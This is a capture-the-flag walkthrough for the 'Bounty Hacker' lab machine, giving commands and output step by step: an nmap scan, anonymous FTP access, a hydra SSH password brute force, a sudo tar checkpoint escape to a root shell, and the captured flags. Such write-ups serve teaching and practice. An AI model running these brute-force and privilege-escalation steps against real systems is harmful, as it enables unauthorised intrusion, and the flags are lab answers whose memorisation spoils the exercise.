 # Bounty-Hacker
Step by step, ooh, baby

```$ nmap -D RND:20 --open -sS -p- <ip>``` <br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:48 -03
Nmap scan report for <ip>
Host is up (0.23s latency).
Not shown: 56227 filtered tcp ports (no-response), 9305 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```$ nmap --open -sV -p21,22,80 <ip>```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:58 -03
Nmap scan report for <ip>
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds

```$ ftp -p 21 <ip>```
anonymous

```$ ls -lha```
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

```$ get locks.txt```
```$ get task.txt```

```$ cat task.txt```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```$ cat locks.txt```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
...

```$ hydra -l lin -P locks.txt <ip> ssh```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 22:04:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://<ip>:22/
[22][ssh] host: <ip>   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 22:04:40

```$ ssh -p 22 lin@<ip>```
RedDr4gonSynd1cat3

```$ ls -lha```
total 12K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

```$ cat user.txt```
THM{CR1M3_SyNd1C4T3}

```$ sudo -l```
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
tar: Removing leading `/' from member names

```$ whoami```
root

```$ ls -lha /root```
total 40K
drwx------  5 root root 4.0K Jun  7  2020 .
drwxr-xr-x 24 root root 4.0K Jun  6  2020 ..
-rw-------  1 root root 2.7K Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Feb 26  2019 .cache
drwxr-xr-x  2 root root 4.0K Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4.0K Jun  7  2020 .ssh

```$ cat /root/root.txt```
THM{80UN7Y_h4cK3r}


